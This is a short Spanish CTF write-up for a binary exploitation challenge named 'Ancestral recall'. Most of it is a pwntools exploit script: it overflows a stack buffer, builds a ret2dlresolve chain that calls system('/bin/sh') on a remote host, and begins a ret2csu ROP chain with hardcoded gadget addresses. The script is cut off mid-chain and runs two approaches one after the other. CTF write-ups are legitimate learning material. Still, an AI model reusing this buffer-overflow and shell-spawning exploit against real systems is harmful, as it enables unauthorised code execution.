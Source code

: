 Ancestral recall era un pwn que se resolvía con ret2DLResolve, tambien se podia hacer con ret2csu, yo opté por la última, el exploit es el siguiente

```python
#!/usr/bin/python3
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./a.out')
libc = elf.libc
context.terminal = ['tmux', 'splitw', '-hp', '70']
def start():
    if args.GDB:
        return gdb.debug('./a.out', gdbscript=gs)
    if args.REMOTE:
        return remote('142.93.122.131', 1313)
    else:
        return process('./a.out')
r = start()
#========= exploit here ===================
rop = ROP(elf)
ret = 0x40101a
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh\0'])
rop.read(0, dlresolve.data_addr)
#rop.raw(rop.ret[0])
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
payload = b"A"*72
payload += raw_rop
r.sendline(payload)
r.sendline(dlresolve.payload)
#gadgets
pops = 0x4011b2 #pop gadget from ret2csu pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
poprsi = 0x00000000004011b9 # pop rsi; pop r15; ret;
poprbp = 0x0000000000401109 # pop rbp; ret; 
poprdi = 0x00000000004011bb # pop rdi; ret;
rw_section = 0x404100
leaveret = 0x40115c # to pivot to .bss
fini_ptr = 0x403048
bss = 0x404030
ret2csu_gdg = 0x401198
#ca syscall
#1
payload = b"A"*0x48
#calling read() to write the 1st ROP chain ion the.bss section
payload += p64(poprdi)
payload += p64(0)
payload += p64(poprsi)
payload += p64(rw_section)
payload += p64(0xcafebabe)
payload += p64(elf.sym.read)
payload += p64(elf.sym.vuln)
#/bin/sh
r.sendline(payload)
#payload 1 on .bss
#storing the string /bin/sh
buf = b"/bin/sh\0"
#ret2csu
buf += p64(pops)
buf += p64(0) #rbx
buf += p64(1) #rbp
buf += p64(1) #r12 -> RDI
buf += p64(elf.got.read) #r13 = > rsi
```